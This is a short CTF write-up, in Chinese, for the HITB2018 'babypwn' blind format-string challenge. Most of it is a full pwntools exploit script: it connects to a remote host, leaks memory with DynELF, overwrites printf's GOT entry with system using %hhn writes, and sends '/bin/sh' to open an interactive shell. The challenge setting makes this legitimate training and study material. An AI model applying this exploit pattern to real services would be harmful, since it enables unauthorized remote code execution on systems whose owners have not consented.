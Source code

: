 这题就是最简单的blind pwn

![](https://github.com/charlieleex/CTF_Writeup/blob/master/HITB2018/babypwn/t1.jpg)

大概反编译之后就是这样

dump的脚本是leak.py，但是也要修改一下才能用，dump下来的是fmt，可以用ida打开，但是反编译也不是很成功

这题利用Dynelf可以leak出system的地址，然后利用格式化字符串漏洞就可以直接将got表中printf的值修改成system的地址

但是生成payload的函数有点难写，具体可以参照我写的函数


下面是payload


```
from pwn import *

p=remote('47.75.182.113', 9999)
#context.log_level='debug'

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.sendline(x)

def leak(addr):
    payload="ab%7$scd"+p64(addr)
    se(payload)
    ru('ab')
    data=ru('cd')[:-2]
    if len(data)==0:
        return '\x00'
    return data


def genpayload(addr,value):
    v=0
    tv=p64(value)
    payload=""
    for i in range(3):
        w=(ord(tv[i])-v+256)%256
        v=ord(tv[i])
        payload+="%"+str(w)+"c%"+str(11+i)+"$hhn"
    payload=payload.ljust(0x28,'a')
    for i in range(3):
        payload+=p64(addr+i)
    return payload


gets=u64(leak(0x601028)+'\x00\x00')

d = DynELF(leak, gets)

base=d.lookup(None,'libc')
system=d.lookup('system','libc')

context.log_level='debug'

payload=genpayload(0x601020,system)

se(payload)

sleep(0.5)

se('/bin/sh\x00')

p.interactive()


```

